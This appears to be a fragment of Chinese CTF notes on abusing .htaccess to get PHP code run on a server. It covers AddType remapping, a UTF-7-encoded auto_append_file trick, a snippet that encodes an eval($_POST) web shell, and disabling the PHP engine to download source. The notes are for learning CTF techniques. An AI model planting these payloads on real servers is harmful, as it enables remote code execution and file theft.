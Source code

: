 解析cgi的参考链接https://www.freebuf.com/vuls/218495.html

2.AddType application/x-httpd-php abc

当在.htaccess中写入AddType application/x-httpd-php abc时，就会把1.abc当作php文件解析

3.php_value、php_admin

```php
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
+ADw?php phpinfo()+Ads
```
```php
<?php
echo mb_convert_encoding('<?php eval($_POST["x"]);?>', "UTF-7", "UTF-8");
?>
```

UTF-7、UTF-16、UTF-32皆可

任意文件下载

```
php_flag engine 0
```

除此之外还可以这样书写.htaccess

![](images/ctf-2021-06-19-09-35-26.png)

